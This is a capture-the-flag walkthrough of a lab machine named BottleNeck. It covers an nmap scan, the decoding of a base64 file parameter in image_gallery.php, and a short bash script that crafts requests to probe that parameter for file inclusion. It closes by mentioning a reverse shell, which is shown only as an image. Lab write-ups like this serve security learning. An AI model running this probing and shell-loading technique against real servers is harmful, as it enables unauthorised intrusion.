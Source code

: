 # BottleNeck

Lets find out the IP of this Machine First ➡️

![Untitled](BottleNeck/Untitled.png)

```jsx
IP : 10.10.2.31
```

## Port Scan Results ➡️

![Untitled](BottleNeck/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Bottleneck]
└─$ **sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.31**   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 09:27 IST
Nmap scan report for 10.0.2.31
Host is up (0.0011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bee0d57576ead4f39177f947207dbfa4 (RSA)
|   256 7a3490c059d1db63bd4eca5e6feee72d (ECDSA)
|_  256 c9b966ce28adb7b3d9bbed220de445db (ED25519)
80/tcp open  http    nginx
|_http-title: BOTTLENECK
MAC Address: 08:00:27:62:05:74 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ➡️

![Untitled](BottleNeck/Untitled%202.png)

![Untitled](BottleNeck/Untitled%203.png)

Now When I visited the page I encountered with this link ⤵️

   [http://10.0.2.31/image_gallery.php?t=1682050025&f=Ym90dGxlbmVja19kb250YmUucG5n](http://10.0.2.31/image_gallery.php?t=1682050025&f=Ym90dGxlbmVja19kb250YmUucG5n)

Now this link loads 2 things >>

1. t = `1682050025` > This is date in seconds .
2. f = `Ym90dGxlbmVja19kb250YmUucG5n` > This data is base64 encoded when we decode it we get `bottleneck_dontbe.png`

So here we have to create a automation script which loads the date in seconds and also takes an input for uploading the payload .

```bash
#!/bin/bash
t=$(date +%s)
f=$(echo -e -n $1 |base64 -w 0)
url="http://10.0.2.31/image_gallery.php?t=$t&f=$f"
echo $url
echo $(curl -s -vv "$url")
```

![Untitled](BottleNeck/Untitled%204.png)

Lets run this >>

Now From the web Browser we get this >>

![Untitled](BottleNeck/Untitled%205.png)

Now Lets try to load the reverse shell script from outside >>

![Untitled](BottleNeck/Untitled%206.png)